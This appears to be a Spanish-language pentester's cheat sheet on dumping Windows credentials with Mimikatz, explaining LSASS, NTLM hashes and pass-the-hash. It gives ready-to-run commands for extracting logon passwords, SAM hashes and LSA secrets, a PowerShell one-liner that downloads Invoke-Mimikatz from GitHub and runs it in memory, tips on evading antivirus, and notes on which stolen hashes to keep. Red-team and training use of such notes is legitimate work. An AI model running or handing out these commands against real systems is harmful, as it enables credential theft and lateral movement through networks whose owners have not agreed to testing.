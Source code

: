 # Mimikatz 

Tags: #Mimikatz #Windows  #LSASS

Mimikatz es una herramienta de seguridad de código abierto desarrollada por Benjamin Delpy (gentilkiwi), ampliamente reconocida en la comunidad de ciberseguridad. Es comúnmente empleada en actividades de Red Teams y evaluaciones de seguridad en sistemas Windows. Su objetivo principal es analizar y aprovechar diversas vulnerabilidades de seguridad en este sistema operativo, siendo especialmente conocida por su capacidad para recuperar contraseñas en texto plano, hashes NTLM y tickets Kerberos directamente desde la memoria. Además, permite realizar técnicas como pass-the-hash, pass-the-ticket y generar tickets Kerberos dorados o plateados, lo que resulta invaluable para movimientos laterales dentro de entornos Active Directory (AD).

Dentro de la sesión de Meterpreter usaremos la extensión de Kiwi para dumpear passwords. Pero debemos de ser 'NT Authority\\System'

# LSASS

El servicio Local Security Authority Subsystem Service (LSASS) en sistemas operativos Windows es crucial para la administración de la política de seguridad y maneja la autenticación de usuarios en el sistema local. Para un pentester, el entendimiento profundo de LSASS y cómo interactúa con los componentes de seguridad de Windows es fundamental para la evaluación de la postura de seguridad de un sistema y la ejecución de ciertas formas de ataques. Aquí hay varios aspectos de LSASS que son de especial interés:

```bash 
# Función y Rol de LSASS

- Autenticación: LSASS es responsable de la autenticación de usuarios para las sesiones de inicio de sesión en una computadora.
- Creación de Tokens: Cuando se autentica a un usuario, LSASS genera un "token de acceso" que contiene los derechos y privilegios del usuario.
- Almacenamiento de Credenciales: En el proceso de LSASS, las credenciales, como hashes de contraseñas y tickets Kerberos, son almacenados en la memoria.
    

# Ataques y Tácticas Asociadas con LSASS
- Dumping de Credenciales: Las herramientas de extracción de credenciales como Mimikatz explotan el acceso a LSASS para obtener hashes de contraseñas y tickets de autenticación.
- Pass-the-Hash / Pass-the-Ticket: Las credenciales extraídas pueden ser usadas para realizar estos ataques, permitiendo a los atacantes autenticarse como otro usuario sin conocer la contraseña en texto claro.
- Inyección de Código: Los atacantes pueden intentar inyectar código malicioso en el proceso LSASS para interceptar credenciales o elevar privilegios.
    

Técnicas de Protección y Evasión
- Protección de Memoria: Los pentesters deben estar al tanto de las características como Credential Guard que protegen la memoria de LSASS.
- Detección de Anomalías: La manipulación de LSASS puede disparar alertas en soluciones de detección de intrusiones y en los sistemas de protección contra malware.
- Técnicas de Evasión: Para evitar la detección, los pentesters pueden necesitar usar técnicas de evasión o desarrollar nuevas herramientas que no estén firmadas por firmas de AV.
```

## Hash NTLM

```bash 
El hash NTLM (NT LAN Manager) es una función hash utilizada por Microsoft para almacenar contraseñas de usuario. Es un método de cifrado que ha sido utilizado en varios protocolos de autenticación de Microsoft a lo largo de los años, incluidos los protocolos de autenticación de red como NTLMv1 y NTLMv2.

Características y detalles sobre el hash NTLM:

1. Forma de Creación: El hash NTLM se crea tomando la contraseña del usuario, convirtiéndola a Unicode y luego aplicando una función hash MD4.
    
2. No tiene SALT: A diferencia de otros métodos de almacenamiento de contraseñas, el hash NTLM no utiliza un "salto" (valor aleatorio agregado para hacer que el hashing sea más seguro). Esto lo hace vulnerable a ataques de fuerza bruta y a ataques de tabla arco iris, donde los atacantes usan tablas precomputadas para buscar rápidamente el valor original de un hash.
    
3. Uso en Protocolos: Aunque NTLM ha sido reemplazado en gran medida por métodos más seguros como Kerberos en entornos modernos de Active Directory, todavía se encuentra en muchas redes debido a la retrocompatibilidad o configuraciones heredadas.
    
4. Vulnerabilidades: Debido a sus debilidades inherentes y la falta de características de seguridad modernas, NTLM es susceptible a una variedad de ataques, como el mencionado ataque de tabla arco iris, ataques de relevo NTLM, y otros.
    
5. Recomendación: Debido a las debilidades conocidas asociadas con NTLM, se recomienda deshabilitar su uso siempre que sea posible, en favor de protocolos de autenticación más seguros como Kerberos.
```

## Extracción de credenciales con binario

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```bash 
❯ net user                            # Miramos todos los usuarios existentes y sus grupos
❯ net user /domain                    # Identificar los usuarios del dominio
```

```powershell
# Ejecutar Mimikatz como 'Administrador'
❯ .\mimikatz.exe 'privilege::debug' 'token::elevate' 'sekurlsa::logonpasswords' 'lsadump::sam' 'lsadump::secrets' exit
```

## Extracción de credenciales con Powershell 

```powershell 
# Descargamos el binario del repositorio
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1');

# Utilizamos la funcion para ejecutar Mimikatz
❯ Invoke-Mimikatz -Command '"token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::secrets"'
```

```bash 
1. 'privilege::debug': Este comando en Mimikatz solicita privilegios de depuración para el proceso Mimikatz. Los privilegios de depuración son necesarios para acceder a ciertas áreas de la memoria del sistema operativo y realizar operaciones que normalmente están restringidas.
    
2. 'token::elevate': Este comando intenta elevar los privilegios de Mimikatz. En el contexto de Mimikatz, esto generalmente significa obtener un token de seguridad de un proceso con privilegios más altos, permitiendo que Mimikatz opere con esos privilegios elevados.
    
3. 'sekurlsa::logonpasswords': Este comando extrae las contraseñas y otros datos de autenticación de la memoria del sistema, específicamente desde la seguridad de Kerberos, SSP, msv1_0, entre otros. Utiliza el módulo sekurlsa de Mimikatz para acceder a la información almacenada por el proceso LSASS (Local Security Authority Subsystem Service).

	Nota: 
	* Mirar si la 'session' = 'Service from 0', si es asi guardar toda la salida del usuario ya que se puede utilizar
	* Si al final del 'username' hay un '$' quiere decir que es un objeto de tipo computador
	* Valores importantes a guardar 'SID, Username, Domain, NTLM, SHA1'
    
4. 'lsadump::sam': Este comando extrae las credenciales almacenadas en la base de datos SAM (Security Accounts Manager). La SAM contiene las credenciales de todos los usuarios locales del sistema y se utiliza generalmente para obtener hashes de contraseñas de cuentas locales.

	Nota: 
	* Guardar los hashes 'NTLM' del usuario 'Administrator'
    
5. 'lsadump::secrets': Este comando se utiliza para extraer "secretos" almacenados por el sistema, como claves de acceso y otros datos sensibles, que pueden estar almacenados en el registro o en el servicio LSASS.
```